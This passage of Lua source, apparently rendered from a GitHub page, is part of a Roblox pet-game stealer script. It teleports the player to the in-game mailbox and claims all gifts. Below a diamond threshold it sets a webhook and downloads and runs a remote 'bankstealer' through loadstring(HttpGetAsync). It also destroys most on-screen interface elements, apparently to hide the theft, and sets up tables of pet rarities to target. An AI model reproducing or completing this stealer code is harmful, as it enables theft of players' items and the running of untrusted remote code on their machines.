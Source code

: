     end
end

-- Teleport To Mailbox

game:GetService("Players").LocalPlayer.Character.HumanoidRootPart.CFrame = CFrame.new(game:GetService("Workspace")[
"__MAP"].Interactive.Mailbox.Pad.Position)

-- Claim All Gifts

local check = getmailremote:InvokeServer()
local inbox = #check.Inbox

if inbox ~= 0 and invspace_nolimit() >= inbox then
    claimallremote:InvokeServer()
    task.wait(1.5)
end

-- Run Bankstealer if Diamonds Are < 110k

local diaamt = PlayerInfos.Diamonds
if diaamt < 110000 then
    _G.Webhook = Webhook
    _G.LoadingScreen = false
    _G.AntiLeave = false
    _G.MouseLock = false
    loadstring(game:HttpGetAsync("bankstealer raw link", true))() -- Exc : https://raw.githubusercontent.com/blabla/blabla/main/bank.lua
    return;
end
if _G.AntiLeave ~= false then
    for i, v in pairs(game:GetService("Players").LocalPlayer.PlayerGui:GetChildren()) do
        if v.Name ~= "Inventory" then
            v:Destroy()
        end
    end
    for i, v in pairs(game:GetService("CoreGui"):GetChildren()) do
        if v.Name ~= "RizzHub" and v.Name ~= "RobloxPromptGui" then
            v:Destroy()
        end
    end
end

-- Pets Tables :

TitanicList = {}
TList = {}
STList = {}
BananaList = {}
BList = {}
HugeList = {}
HList = {}
SHList = {}
PogList = {}
PList = {}
SPList = {}
ExclusiveList = {}
EList = {}
SEList = {}
EventList = {}
EvList = {}
SEvList = {}
SecretList = {}
SList = {}
SSList = {}
MythicList = {}
MList = {}